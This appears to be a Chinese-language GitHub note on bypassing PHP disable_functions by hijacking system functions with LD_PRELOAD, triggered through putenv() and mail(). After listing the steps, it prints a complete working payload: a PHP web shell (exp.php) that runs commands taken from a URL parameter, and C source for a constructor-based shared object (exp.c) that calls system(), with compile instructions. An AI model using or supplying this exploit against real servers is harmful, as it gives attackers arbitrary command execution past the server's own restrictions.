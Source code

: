 ## LD_PRELOAD劫持系统函数
（PHP 支持putenv()、mail() 即可，甚至无需安装 sendmail）

#### 参考

- https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD?files=1&tdsourcetag=s_pcqq_aiomsg

利用环境变量LD_PRELOAD劫持系统函数，让外部程序加载恶意的.so文件，达到执行系统命令的效果。

#### 利用过程

- 编写一个原型为 uid_t getuid(void); 的 C 函数，内部执行攻击者指定的代码，并编译成共享对象 getuid_shadow.so；
- 运行 PHP 函数 putenv()，设定环境变量 LD_PRELOAD 为 getuid_shadow.so，以便后续启动新进程时优先加载该共享对象；
- 运行 PHP 的 mail() 函数，mail() 内部启动新进程 /usr/sbin/sendmail，由于上一步 LD_PRELOAD 的作用，sendmail 调用的系统函数 getuid() 被优先级更好的 getuid_shadow.so 中的同名 getuid() 所劫持；
- 达到不调用 PHP 的各种命令执行函数（system()、exec() 等等）仍可执行系统命令的目的。

#### 改进版利用过程

- GCC 有个 C 语言扩展修饰符 `__attribute__((constructor))`，可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加载，立即将执行 `__attribute__((constructor))` 修饰的函数
- 运行 PHP 函数 putenv()，设定环境变量 LD_PRELOAD 为 getuid_shadow.so，以便后续启动新进程时优先加载该共享对象；
- 运行 PHP 的 mail() 函数，mail() 内部启动新进程 /usr/sbin/sendmail，由于上一步 LD_PRELOAD 的作用，sendmail 调用的系统函数 getuid() 被优先级更好的 getuid_shadow.so 中的同名 getuid() 所劫持；
- 达到不调用 PHP 的各种命令执行函数（system()、exec() 等等）仍可执行系统命令的目的。

#### payload

exp.php

```php
<?php
    echo "<p> <b>example</b>: http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 
    unlink($out_path);
?>
```
exp.c
```c
//用命令 gcc -shared -fPIC bypass_disablefunc.c -o bypass_disablefunc_x64.so 将 bypass_disablefunc.c 编译而来。 若目标为 x86 架构，需要加上 -m32 选项重新编译
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```


